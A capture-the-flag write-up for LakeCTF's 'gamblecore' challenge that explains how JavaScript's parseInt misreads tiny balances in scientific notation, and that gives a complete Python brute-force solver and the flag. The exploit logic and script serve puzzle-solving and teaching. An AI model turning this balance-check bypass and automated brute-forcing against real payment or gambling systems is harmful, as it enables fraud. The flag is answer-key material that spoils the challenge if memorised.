


## LakeCTF '25-'26 Quals  -  gamblecore Write-up



### Step 1: Source Code Analysis and Vulnerability Discovery

We are provided with the source code of a Node.js application. It is a casino where you can gamble using "Microcoins" or USD. The goal is to buy a flag for $10 USD. At the start, we only have 10 microcoins (`10e-6`) and 0 USD.

Analyzing the `/api/convert` endpoint, which allows exchanging coins for dollars, we notice a flawed logic in the balance check:

```javascript
app.post('/api/convert', (req, res) => {
    let { amount } = req.body;
    const wallet = req.session.wallet;
    
    // VULNERABILITY HERE
    const coinBalance = parseInt(wallet.coins); 
    
    amount = parseInt(amount);
    
    // ...
    if (amount <= coinBalance && amount > 0) {
        wallet.coins -= amount;
        wallet.usd += amount * 0.01;
        // ...
    }
});
```

The vulnerability lies in using `parseInt(wallet.coins)` on floating-point numbers.

### Step 2: JavaScript Type Juggling (Scientific Notation)

JavaScript has specific behavior when converting very small numbers to strings (which `parseInt` does implicitly).
If a number is smaller than `1e-6`, JS automatically converts it to scientific notation.

1.  Starting balance: `0.00001` (10 microcoins). `parseInt("0.00001")` stops at the decimal point and returns **0**.
2.  If we lose some money and the balance becomes, for example, `0.0000009` (9e-7), converting it to a string results in `"9e-7"`.
3.  `parseInt("9e-7")` sees the digit `9`, then the letter `e`. It stops at the letter and returns **9**.

**Exploit Logic:**
The server thinks we have 9 whole coins, even though we actually have less than one-millionth of a coin. This allows us to convert nonexistent 9 coins into **$0.09 USD**.

### Step 3: Attack Strategy

Having obtained $0.09, we are still far from $10. Since the expected value of gambling is negative (9% win rate, x10 payout), winning "fairly" is statistically impossible.
However, we can automate the process:
1.  Gamble with microcoins until the balance drops into the `1e-7 ... 9e-7` range.
2.  Trigger the conversion bug to get seed capital in USD.
3.  Go "All-in" 3 times in a row:
    *   $0.09 $\to$ $0.90
    *   $0.90 $\to$ $9.00
    *   $9.00 $\to$ $90.00 (Enough for the flag)
4.  The success rate for such a streak is $\approx 0.07\%$, so we need a brute-force script.

### Step 4: Automation

We write a Python script that creates new sessions and attempts to execute this chain of actions until it succeeds.

#### Solver Script (`solve.py`)

```python
import requests
import time

URL = "https://chall.polygl0ts.ch:8148"

# We start with 10e-6. We want ~9e-7.
# We need to lose about 9.1 microcoins.
BET_TO_REDUCE = 0.0000091

def attempt_solve(session_id):
    s = requests.Session()
    
    # 1. Drain balance to the required range (Scientific Notation trigger)
    try:
        r = s.post(f"{URL}/api/gamble", json={
            "currency": "coins", 
            "amount": BET_TO_REDUCE
        }, timeout=5)
        
        data = r.json()
        if "new_balance" not in data: return False
            
        # If we won by accident - restart, as the balance is too high.
        if data['win']: return False
            
        # Balance is now ~9e-7. parseInt(9e-7) -> 9.
        
        # 2. Convert "phantom" coins to USD
        r = s.post(f"{URL}/api/convert", json={"amount": 9}, timeout=5)
        if r.status_code != 200: return False

        # We got $0.09. We need $10. Going all-in 3 times.
        current_usd = 0.09
        
        for _ in range(3):
            r = s.post(f"{URL}/api/gamble", json={
                "currency": "usd",
                "amount": current_usd
            }, timeout=5)
            
            if not r.json().get('win'): return False
            current_usd = r.json()['new_balance']

        # 3. Buy the flag
        r = s.post(f"{URL}/api/flag", timeout=5)
        if r.status_code == 200:
            print(f"\n[+] FLAG: {r.json()['flag']}")
            return True
            
    except Exception:
        pass
        
    return False

print("[*] Starting brute force... (Probability ~1/1370)")
count = 0
while True:
    count += 1
    if count % 50 == 0:
        print(f"[*] Attempt {count}...")
    
    if attempt_solve(count):
        break
```

### Step 5: Result

We run the script. Around attempt #2000 (which took a few minutes), the script hit the jackpot ("Let's go gambling!") and retrieved the flag.



### Flag
Flag: `EPFL{we_truly_live_in_a_society}`